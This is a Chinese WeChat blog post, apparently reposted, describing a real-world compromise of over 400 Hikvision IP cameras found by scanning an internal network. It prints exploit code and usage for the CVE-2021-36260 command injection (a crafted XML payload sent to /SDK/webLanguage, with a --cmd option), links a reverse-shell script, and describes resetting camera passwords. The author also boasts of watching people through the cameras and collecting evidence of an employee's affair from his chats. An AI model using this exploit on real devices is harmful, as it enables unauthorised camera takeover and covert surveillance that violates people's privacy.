 #  遥遥领先！实战|一口气拿下400+摄像头

[ 实战安全研究 ](javascript:void\(0\);)

**实战安全研究** ![]()

微信号 gh_f390fc63c711

功能介绍 我们都是网络安全爱好者，专注于网络安全技术。主要以实战讲述web渗透，代码审计和内网渗透，偶尔poc/exp开发和分享，未来主要关注Java安全。

____

___发表于_

收录于合集

以下文章来源于X安全实验室 ，作者a16

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM778aF1fcOWhIkof61YxTGeOic5miaQSSfhQ3FUPHZVHJbg/0)
**X安全实验室** .

探索网络安全潜能！分享渗透测试技巧、代码审计，漏洞分析，最新威胁情报，涵盖AI、区块链等领域。保护数字世界，共筑坚不可摧堡垒。网络安全爱好者与普通用户皆欢迎一二线大厂|实习|内推|安全|前端|后端|运维国护|省护|攻防演练|红队|蓝队

  

## 0x0 信息收集

进入内网 使用scan进行 172整个A段的扫描  发现大量的Hikvision IP
Camera。但是使用浏览器访问页面，发现是竞业达。经过谷歌搜索，发现竞业达使用的就是海康威视的产品，只不过套了一个壳。

![]()

![]()

## 0x1 poc验证

知道是海康威视之后，就可以直接用poc来打了。

我这里用 CVE-2021-36260这个脚本来打 。项目地址如下
https://github.com/Cuerz/CVE-2021-36260/blob/main/CVE-2021-36260.py

    
    
     headers = {  
            "host": f'{host}:{port}',  
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",  
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36",  
            'Accept': '*/*',  
            'X-Requested-With': 'XMLHttpRequest',  
            'Accept-Encoding': 'gzip, deflate',  
            'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8'  
        }  
        data = '<?xml version="1.0" encoding="UTF-8"?>' \  
               f'<language>$(>webLib/cu)</language>'  
        try:  
            resp1 = requests.put(url=origin_url + '/SDK/webLanguage', headers=headers, data=data, timeout=3, verify=False)  
            resp2 = requests.get(origin_url + '/cu')  
            if resp2.status_code == 200:  
                print(GREEN + f'[!] {url} is verified exploitable\n')  
                return True  
            else:  
                print(BLUE + f'[+] Remote is not vulnerable (Code: {resp2.status_code})\n')  
                return False  
        except:  
            print(RED + f'[-]Cannot connect to ' + url + '\n')  
    

使用方法:

    
    
    python ./CVE-2021-36260.py -u http://192.168.1.1:8080 --check  
    python ./CVE-2021-36260.py -u http://192.168.1.1:8080 --cmd "ls -la"  
    python ./CVE-2021-36260.py -f target.txt  
      
    optional arguments:  
      -h, --help            show this help message and exit  
      -u URL, --url URL     Start scanning url  
      -f FILE, --file FILE  read the url from the file  
      --check               Check if vulnerable  
      --cmd CMD             execute cmd (i.e: "ls -l")  
    

## 0x2 反弹shell

上面的脚本只能检测 但是如果需要反弹shell 进一步利用 需要用到这个脚本
https://github.com/Aiminsun/CVE-2021-36260/blob/main/CVE-2021-36260.py
。反弹shell之后，得到的是一个psh，这个psh只能执行一些内部自带的命令（我太菜了），但是查看摄像头足以，直接执行restpassword。然后重新刷新网页，就会提示你设置新的账号密码。下面来欣赏一下效果吧！

![]()

![]()

  

## 0x3 总结

这次的目标有大量的海康威视，运气不错。不足的是只拿到了pth，只能执行一些内部自带的命令（我还是太菜了）。后续还有很多实战，碰到的事情也很有意思，比如摄像头刚好看到小树林的事情，运维人员在办公电脑上聊天被我抓到出轨的证据,这里先发一张图预热一下,明天吃瓜.

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

